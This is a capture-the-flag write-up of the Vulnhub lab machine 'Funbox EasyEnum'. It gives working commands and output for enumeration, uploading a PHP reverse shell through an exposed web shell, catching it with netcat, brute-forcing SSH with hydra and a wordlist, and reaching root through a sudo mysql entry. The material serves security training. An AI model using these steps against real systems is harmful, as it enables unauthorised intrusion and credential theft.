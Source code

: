 ```yaml
---
title: Vulnhub - Funbox EasyEnum
description: My writeup on Funbox EasyEnum box.
categories:
 - vulnhub
tags: vulnhub gobuster curl web-shell hydra mysql
---
```


![](https://i.imgur.com/6ghxvXy.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Funbox EasyEnum**  | 
| Series :      | **Funbox**           |
| Difficulty :  | **Easy/Medium**      |   
| Release Date :| **19 Sep 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [@0815R2d2](https://twitter.com/@0815R2d2){:target="_blank"}      | 
| Download :    | [Funbox EasyEnum](https://www.vulnhub.com/entry/funbox-easyenum,565/){:target="_blank"}      | 

## Summary

Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 02:01 EEST
Nmap scan report for funbox7.zte.com.cn (192.168.1.17)
Host is up (0.00049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DE:A0:BD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 02:01 EEST
Nmap scan report for funbox7.zte.com.cn (192.168.1.17)
Host is up (0.00035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Port 80 has the default apache2 page, without wasting more time lets fire up a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/javascript (Status: 301)
/mini.php (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/phpmyadmin (Status: 301)
```

Lot of stuff, `/mini.php` is a php web shell. We can upload our files here:

![](https://i.imgur.com/Uj96Eun.png)

## Shell as www-data

I like to use the CLI way to do my stuff, i'll show you a `curl` trick to upload files. First let's take a look into the html code we have to find the `name`.

```html
<input type="file" name="file"/>
```

So our command will be:

```
$ curl -s -F "file=@shell.php" http://$ip/mini.php > /dev/null
````

Our file successfully uploaded:

![](https://i.imgur.com/Ug5xwof.png)

Now we can simply execute it & get a shell back:

```
$ curl -s http://$ip/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as goat

I enumerated a lot but i wasn't able to find something exploitable. Anyway system has lot of users:

```
www-data@funbox7:/$ cat /etc/passwd | cut -d ':' -f 1,7 | grep "bash\|sh" | grep -v "sshd"
root:/bin/bash
karla:/bin/bash
harry:/bin/bash
sally:/bin/bash
goat:/bin/bash
oracle:/bin/bash
lissy:/bin/sh
```

I tried SSH brute force with all of them only user's `goat` password found:

```
$ hydra -l goat -P /usr/share/wordlists/rockyou.txt $ip ssh

[DATA] attacking ssh://192.168.1.16:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active
[STATUS] 134.67 tries/min, 404 tries in 00:03h, 14344000 to do in 1775:15h, 16 active
[STATUS] 117.29 tries/min, 821 tries in 00:07h, 14343583 to do in 2038:17h, 16 active
[22][ssh] host: 192.168.1.16   login: goat   password: thebest
1 of 1 target successfully completed, 1 valid password found
```

```
www-data@funbox7:/$ su - goat
Password: thebest

goat@funbox7:~$ whoami;id
goat
uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)
```

## Shell as root

`sudo -l` shows that we can execute `mysql` as root:

```
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql
```

We can simply exploit that using the `system` function of `mysql`.

```
goat@funbox7:~$ sudo mysql -s
mysql> system bash
root@funbox7:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

## Reading the flag(s)

![](https://i.imgur.com/M5DQa7b.png)

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
